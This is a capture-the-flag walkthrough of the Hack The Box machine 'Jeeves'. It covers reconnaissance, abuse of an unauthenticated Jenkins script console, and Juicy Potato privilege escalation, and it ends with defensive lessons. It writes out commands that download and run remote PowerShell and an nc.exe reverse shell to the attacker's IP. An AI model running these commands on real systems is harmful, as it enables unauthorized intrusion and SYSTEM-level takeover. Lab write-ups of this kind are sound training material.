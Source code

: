 # Jeeves

![](<../../../.gitbook/assets/image (9) (1) (1).png>)

## Reconnaissance <a href="#491d" id="491d"></a>

First we want to run a initial nmap scan to see what ports are open and what services are on those ports.

```hcl
nmap -sC -sV -oA nmap/init 10.129.174.184
```

* **-sC**: run default nmap scripts
* **-sV**: detect service version
* **-oA**: output all formats to _nmap/initial_

We get back the following information:

{% code title="init.nmap" %}
```hcl
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-23 20:19 EDT
Nmap scan report for 10.129.174.184
Host is up (0.034s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-title: Ask Jeeves
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-03-24T05:19:57
|_  start_date: 2022-03-24T05:08:21
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 4h59m58s, deviation: 0s, median: 4h59m57s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.19 secondshcl
```
{% endcode %}

## Enumeration

### Passive Enumeration

#### IIS Directory Enumeration

```bash
gobuster dir -u http://10.129.174.184 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o iis.txt
```

#### Jetty Directory Enumeration

```
gobuster dir -u http://10.129.174.184:50000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o iis.txt
```

### Active Enumeration

#### Exploring IIS

Looking at the http site we are presented with a search bar

![](<../../../.gitbook/assets/image (15) (1) (1) (1).png>)

Searching takes you to error.html which turns out to just be an image

![error.html](<../../../.gitbook/assets/image (17) (1) (1).png>)

Source code for site, the action results in error.html

```html
<!DOCTYPE html>
<html>
<head>
<title>Ask Jeeves</title>
<link rel="stylesheet" type="text/css" href="style.css">
</head>

<body>
<form class="form-wrapper cf" action="error.html">
    <div class="byline"><p><a href="#">Web</a>, <a href="#">images</a>, <a href="#">news</a>, and <a href="#">lots of answers</a>.</p></div>
  	<input type="text" placeholder="Search here..." required>
	  <button type="submit">Search</button>
    <div class="byline-bot">Skins</div>
</form>
</body>

</html>
```

#### Exploring Jetty

Quickly checking gobuster for jetty shows that we have a directory to check out

![/askjeeves](<../../../.gitbook/assets/image (16) (1) (1).png>)

Going there we see Jenkins!

![Jenkins](<../../../.gitbook/assets/image (24) (1) (1).png>)

Turns out we have command execution without needing to be logged in which works in our favor

![](<../../../.gitbook/assets/image (7) (1).png>)

## Initial Access

Using Nishang Invoke-PowerShellTcp.ps1 script we can create a reverse shell and get access to the box

{% embed url="https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1" %}

First we want to copy the example to the bottom of the script so that it is run when copied to the machine we are attacking

![](<../../../.gitbook/assets/image (10) (1).png>)

![](<../../../.gitbook/assets/image (6) (1) (1).png>)

Next we want to get a web server running and a netcat listener to catch the reverse shell. In this se I am using [updog](https://github.com/sc0tfree/updog) for my simple web server.

![](<../../../.gitbook/assets/image (12) (1) (1).png>)

Using the script console again I run this command to download and execute the invoke powershell tcp reverse shell script

![](<../../../.gitbook/assets/image (3).png>)

And we get a shell back!

![](<../../../.gitbook/assets/image (14) (1).png>)

This allows us to get user.txt!

## Privilege Escalation

### Juicy Potato

Next we want to run PowerUp.ps1 however we want to use the dev branch as it has extra checks

{% embed url="https://github.com/PowerShellMafia/PowerSploit/tree/dev" %}

![](<../../../.gitbook/assets/image (13) (1).png>)

Then we want to run these commands in our reverse shell

```powershell
IEX(New-Object Net.WebCLient).downloadString('http://10.10.14.92/PowerUp.ps1')
Invoke-AllChecks # This runs the powershell function to check everything
```

![](<../../../.gitbook/assets/image (2) (1).png>)

Right away we see SeImpersonatePrivilege which means this box is vulnerable to Juicy Potato!

{% embed url="https://github.com/ohpe/juicy-potato" %}

We first need to download JuicyPotato.exe to the box which I am hosting from my kali box

![](<../../../.gitbook/assets/image (22) (1).png>)

We need to copy kali's nc.exe to the windows box

```powershell
# nc.exe is located /usr/share/windows-resources/binaries/nc.exe on kali
Invoke-WebRequest "http://10.10.14.92/nc.exe" -OutFile "nc.exe"
```

![](<../../../.gitbook/assets/image (8).png>)

Next we want to run JuicyPotato!

This is the input I used:

* **-t: \***
* **-p:** c:\windows\system32\cmd.exe
* **-a:** "/c c:\users\kohsuke\desktop\nc.exe -e cmd.exe 10.10.14.92 9001"
* **-l:** 9001

```powershell
cmd /c jp.exe -l 9001 -p c:\windows\system32\cmd.exe -a "/c c:\users\kohsuke\desktop\nc.exe -e cmd.exe 10.10.14.92 9001" -t *
```

![Got a shell](<../../../.gitbook/assets/image (23) (1).png>)

We got nt authority\system!&#x20;

When we try and take a look at the administrators desktop we see hm.txt with an interesting message

![](<../../../.gitbook/assets/image (5).png>)

Then I tried this

![Alternate Data Streams](<../../../.gitbook/assets/image (9) (1) (1) (1).png>)

Alternate Data Streams, find more about them here

{% embed url="https://owasp.org/www-community/attacks/Windows_alternate_data_stream" %}

<details>

<summary>We can direct this into more and get the flag</summary>

```
C:\Users\Administrator\Desktop>more < hm.txt:root.txt
more < hm.txt:root.txt
afbc5bd4b615a606 # Only first 16 bytes of hash shown
```

</details>

## Lessons Learned

* Restrict who can access the Jenkins management as this opens up unauthorized access
* In some instances a file using alternate data streams could be an indicator of compromise
* Be careful of which service users have SeImpersonatePrivilege as this could allow an attacker to easily escelate their privileges&#x20;

